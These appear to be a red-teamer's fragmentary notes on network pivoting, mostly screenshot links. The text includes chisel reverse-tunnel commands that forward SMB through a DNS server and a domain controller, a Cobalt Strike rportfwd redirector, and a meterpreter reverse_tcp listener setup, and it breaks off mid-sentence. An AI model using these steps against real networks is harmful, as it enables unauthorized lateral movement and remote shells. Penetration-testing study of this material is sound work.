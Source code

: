 https://ap3x.github.io/posts/pivoting-with-chisel/

![[Pasted image 20240304212735.png]]![[Pasted image 20240304212749.png]]
![[Pasted image 20240304212815.png]]
![[Pasted image 20240304212907.png]]
![[Pasted image 20240304212929.png]]
![[Pasted image 20240304212957.png]]
![[Pasted image 20240304213027.png]]


cobalt strike opens the port on the actual target, not the host.

# Things to try
- try tcpdump to monitor
![[Pasted image 20240304213658.png]]
- might be iptables messing up?

![[Pasted image 20240304214417.png]]
![[Pasted image 20240304213959.png]]



# PoC

put chisel onto DNS Server and DC.


MAINTAINER LAPTOP 
-> DNS SERVER 172.16.4.23 `chisel server -p 53 --reverse`
--> DC 172.16.4.11 (external IP) `chisel client 172.16.4.23:53 R:9292:172.16.5.194:445`



# Random Cobaltstrike to meterpreter notes


- Can also try Cobaltstrike to meterpreter, just make sure to 
	- wouldnt work because not opening actual local port, onl
![[Pasted image 20240304213137.png]]

beacon redirector in action with rportfwd


rportfwd 9292 172.16.5.194 9292
	- verify listening shell netstat -nao | findstr "9292"

In cobalt strike add a new listener 

Payload: windows/meterpreter/reverse_tcp
Host: 172.16.4.7/11
port: 9292

so now meterpreter is standing up a meterpreter handler on the teams server 172.16.5.194 (Teams server) on port 9292 but the listener is configured to call back to 